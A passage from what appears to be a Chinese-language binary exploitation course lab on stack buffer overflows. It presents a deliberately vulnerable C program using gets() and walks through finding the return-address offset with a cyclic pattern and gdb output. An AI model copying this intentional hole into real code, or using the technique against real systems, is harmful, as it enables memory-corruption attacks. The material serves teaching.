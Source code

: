 ## Lab3: Stack_3
在上面的 Lab 中，我們學會了如何通過 buffer overflow 去控制其他變數的值，現在我們將要跳出 stack frame，去嘗試覆蓋 retrun address 的值，以下為實驗程式碼
```c
#include <stdio.h>
#include <stdlib.h>

void func() {
    printf("how did you do that???\n");
}

int main(void){
    char buf[64];

    gets(buf);
}
```

回顧 stack 分佈情況，我們可以通過讓 stack frame 中的變數溢出，進而造成其他區域的資料更動，以下圖的範例而言，我們便是通過 stack frame 中的變數溢出將 return address 覆蓋。

<img src="https://hackmd.io/_uploads/SJZFoGT4h.png" width=300>

首先我們先構造一段輸入 `
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
`
接著我們通過 `gdb` 執行程式
```
[----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x0 
RCX: 0x7ffff7e19aa0 --> 0xfbad2288 
RDX: 0x1 
RSI: 0x1 
RDI: 0x7ffff7e1ba80 --> 0x0 
RBP: 0x5252525251515151 ('QQQQRRRR')
RSP: 0x7fffffffdab8 ("SSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ")
RIP: 0x5555555551a6 (<main+35>: ret)
R8 : 0x0 
R9 : 0x0 
R10: 0x77 ('w')
R11: 0x246 
R12: 0x7fffffffdbc8 --> 0x7fffffffdfde ("/home/ubuntu/Desktop/workspace/PWN_Lec/Lec1/Lab/stack_3/stack_3")
R13: 0x555555555183 (<main>:    endbr64)
R14: 0x555555557db8 --> 0x555555555120 (<__do_global_dtors_aux>:        endbr64)
R15: 0x7ffff7ffd040 --> 0x7ffff7ffe2e0 --> 0x555555554000 --> 0x10102464c457f
EFLAGS: 0x10206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x55555555519b <main+24>:    call   0x555555555070 <gets@plt>
   0x5555555551a0 <main+29>:    mov    eax,0x0
   0x5555555551a5 <main+34>:    leave  
=> 0x5555555551a6 <main+35>:    ret    
   0x5555555551a7:      add    bl,dh
   0x5555555551a9 <_fini+1>:    nop    edx
   0x5555555551ac <_fini+4>:    sub    rsp,0x8
   0x5555555551b0 <_fini+8>:    add    rsp,0x8
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdab8 ("SSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ")
0008| 0x7fffffffdac0 ("UUUUVVVVWWWWXXXXYYYYZZZZAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ")
```